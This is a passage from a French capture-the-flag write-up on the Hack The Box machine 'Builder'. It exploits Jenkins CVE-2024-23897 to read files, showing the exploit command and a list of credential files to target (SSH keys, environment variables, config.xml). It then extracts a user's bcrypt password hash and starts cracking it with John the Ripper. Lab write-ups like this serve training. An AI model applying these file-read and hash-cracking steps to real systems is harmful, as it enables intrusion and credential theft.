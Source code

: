 > Le flag utilisateur se trouvant généralement dans un home, en essayant `/var/jenkins_home/user.txt` **on trouve bel et bien le flag !**
{: .prompt-info}

```shell
$ ./CVE-2024-23897.py -u "http://builder.htb:8080/" -p "/var/jenkins_home/user.txt"
95180fcbd4...
```

On va maintenant commencer à chercher des fichiers pouvant contenir des mots de passes ou des clés.
- **/proc/self/environ:** Les variables d'environnement du service web
- **config.xml:** Le fichier de configuration de Jenkins
- **~/.ssh/id_rsa:** La clé SSH d'un utilisateur (rare, encore plus dans un container Docker)
- **/proc/.../environ:** Les variables d'environnement d'autres processus

Dans les variables d'environnement de Jenkins, on retrouve des informations qu'on avait déjà eu, comme le hostname ou le chemin d'installation de Jenkins.
> Généralement, le dossier d'installation est aussi le dossier courant. Il est donc possible d'y accéder via le symlink `/proc/self/cwd/` !
{: .prompt-tip}

```xml
<denyAnonymousReadAccess>false</denyAnonymousReadAccess>
```
{: file='/var/jenkins_home/config.xml'}

Rien d'intéressant dans le fichier config. On peut tout de même noter cette option qui aurait probablement bloqué l'exploit, ou restreint son utilisation à la commande `help`.
Après beaucoup de recherches sur internet, on apprend que les utilisateurs sont stockés par défaut dans `/var/jenkins_home/users/`. Ce dossier comporte un fichier `users.xml` qui contient la liste des utilisateurs.

```xml
<?xml version='1.1' encoding='UTF-8'?>
  <string>jennifer_12108429903186576833</string>
...
```
{: file='/var/jenkins_home/users/users.xml'}

En utilisant ce nom, on peut accéder trouver le fichier de configuration de l'utilisateur 'jennifer' `users/jennifer_12108429903186576833/config.yml`.

```xml
...
<emailAddress>jennifer@builder.htb</emailAddress>
...
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```
{: file='/var/jenkins_home/users/jennifer_12108429903186576833/config.yml'}

On va maintenant voir si ce mot de passe est un mot de passe vulnérable (fréquemment utilisé/trop simple)
On reconnaît au début du hash la partie `$2a$10$` qui s'apparente à un hash **BCrypt** qui a ici un coût de 10. (Ce qui correspond à 2 puissance 10 hashages)

En utilisant JohnTheRipper, on peut hash des mots de passe connus avec BCrypt afin de comparer le résultat au hash du mot de passe de Jennifer.
